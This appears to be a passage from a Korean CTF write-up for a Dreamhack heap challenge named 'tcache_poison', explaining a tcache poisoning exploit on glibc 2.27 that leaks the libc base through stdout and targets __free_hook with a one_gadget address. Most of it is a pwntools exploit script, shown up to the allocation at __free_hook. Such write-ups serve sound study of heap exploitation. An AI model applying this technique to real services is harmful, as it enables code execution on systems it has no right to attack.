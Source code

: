     `allocate(0x30, "\x60")`**이 할당한 pointer는** `e.symbols["stdout"]`**이므로**, 이 할당한 **chunk의 값을 출력**하면 `_IO_2_1_stdout_`**의 값**을 확인할 수 있다. 따라서 `print_chunk()`를 실행해 주소를 얻고, **이로부터 libc_base를 얻는다**. 이후 hook overwrite를 위한 `__free_hook`**의 주소와** `og`**를 얻는다.**
    
    이때 만약 `“\x60”`이 아닌 다른 값을 넣어줬다면 chunk에 담겨 있는 `_IO_2_1_stdout_`의 값이 변하게 된다. 다행히도 `_IO_2_1_stdout_`**의 마지막 1.5 byte의 값은 변하지 않으므로** 미리 gdb를 이용해 **마지막 1.5 byte의 값을 확인해 allocate할 때 넣어줄 값을 확인**할 수 있다.
    

### Exploit - Tcache Poisoning을 이용해 Hook Overwrite하기

```python
from pwn import *

p = process("./tcache_poison")
#p = remote("host3.dreamhack.games", 18280)
gdb.attach(p)
e = ELF("./tcache_poison")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
#libc = ELF("./libc-2.27.so")

def allocate(size, content):
    p.sendlineafter("Edit\n", "1")
    p.sendlineafter(": ", str(size))
    p.sendafter(": ", content)

def free():
    p.sendlineafter("Edit\n", "2")

def print_chunk():
    p.sendlineafter("Edit\n", "3")

def edit(content):
    p.sendlineafter("Edit\n", "4")
    p.sendafter(": ", content)

allocate(0x30, "dreamhack")
free()

edit("A"*0x8 + "B")
free()

addr_stdout = e.symbols["stdout"]
allocate(0x30, p64(addr_stdout))

allocate(0x30, "BBBBBBBB")
allocate(0x30, "\x60")

print_chunk()

p.recvuntil("Content: ")
stdout = u64(p.recvn(6).ljust(8, b"\x00"))
lb = stdout - libc.symbols["_IO_2_1_stdout_"]
#local
og = lb + 0x4f302
#remote
#og = lb + 0x4f432
free_hook = lb + libc.symbols["__free_hook"]

allocate(0x40, "dreamhack")
free()

edit("A"*0x8 + "\x00")
free()

allocate(0x40, p64(free_hook))
```